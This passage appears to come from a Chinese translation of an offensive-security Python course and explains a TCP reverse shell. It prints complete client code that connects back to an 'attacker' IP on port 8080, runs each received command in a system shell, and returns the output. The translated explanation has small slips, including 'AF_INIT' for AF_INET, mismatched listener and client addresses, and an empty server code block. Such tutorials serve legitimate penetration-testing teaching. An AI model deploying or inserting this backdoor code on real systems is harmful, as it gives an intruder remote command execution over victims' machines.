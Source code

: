 ```
```

如前面的代码所示，脚本首先导入了`socket`库，它负责编写低级网络接口。`AF_INIT` 定义了套接字地址为一对：主机和端口。在这种情况下，它将是`10.10.10.100`，端口是`8080`。`SOCK_STREAM` 是套接字类型的默认模式。现在，bind 函数指定了 Kali IP 地址和监听端口的元组格式，即`10.10.10.100`，我们应该在端口`8080`上监听以接收连接。

由于我们只期望来自单个目标的单个连接，因此我们将监听一个连接。所以，backlog 大小，指定最大排队连接数，是`1`；我们将监听值定义为`1`。现在，`accept` 函数返回一对连接对象（`conn`）的值，以及地址（`addr`）。这里的地址是目标的 IP 地址和用于从目标发起连接回我们的源端口。接下来，我们将进入一个无限循环，获取我们的命令输入并将其发送到目标机器。这个原始输入用于获取用户输入。如果用户输入的是`terminate`，我们将通知目标我们希望关闭会话，然后我们会从我们这边关闭会话。否则，我们将向目标发送一个`command`，并且我们将读取并打印从目标端收到的前 1 KB 数据。

# 客户端

现在，让我们看一下客户端脚本：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic TCP Client

import socket # For Building TCP Connection
import subprocess # To start the shell in the system

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # start a socket object 's' 
    s.connect(('10.0.2.15', 8080)) # Here we define the Attacker IP and the listening port

    while True: # keep receiving commands from the Kali machine
        command = s.recv(1024) # read the first KB of the tcp socket

        if 'terminate' in command: # if we got terminate order from the attacker, close the socket and break the loop
            s.close()
            break 

        else: # otherwise, we pass the received command to a shell process

            CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send( CMD.stdout.read() ) # send back the result
            s.send( CMD.stderr.read() ) # send back the error -if any-, such as syntax error

def main ():
    connect()
main()
```

我们导入`subprocess`来启动 shell 和系统。接下来，连接部分相当简单。我们定义`s`和`socket`对象，并指定 Kali 机器的 IP 地址和我们应该发起连接的端口。我们在 Kali 机器上监听的端口必须与我们从目标机器发起连接的端口完全匹配。与服务器端类似，我们将进入一个无限循环并获取攻击者的命令。如果攻击者的命令是`terminate`，或者命令中包含`terminate`关键字或字符串，则我们关闭连接并打破无限循环；否则，我们将使用`subprocess`启动系统中的 shell。我们将把从攻击者机器接收到的命令传递给`subprocess`，并获取结果或错误。请注意，`subprocess`有一种自我处理异常的机制。例如，如果我们在 Kali 端输入了错误的命令并将错误的语法发送给目标，`stderr`不会导致进程崩溃，而是处理异常并返回错误。
